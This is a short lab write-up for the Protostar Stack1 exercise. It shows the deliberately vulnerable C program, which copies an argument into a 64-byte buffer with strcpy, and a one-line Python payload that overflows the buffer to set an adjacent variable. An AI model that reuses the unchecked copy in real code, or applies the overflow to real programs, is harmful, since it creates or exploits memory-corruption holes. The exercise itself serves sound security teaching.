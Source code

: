 #### Protostar Stack1 

##### About
This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.  
This level is at /opt/protostar/bin/stack1

###### Hints
* If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
* Protostar is little endian

##### Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

##### Solution
```
$ ./stack1 `python -c "print 'A'*64+'\x64\x63\x62\x61'"`
```

##### Reference
<https://github.com/Wins0n/Exploit-Exercises_ProtoStar/blob/master/protostar_part1.md>
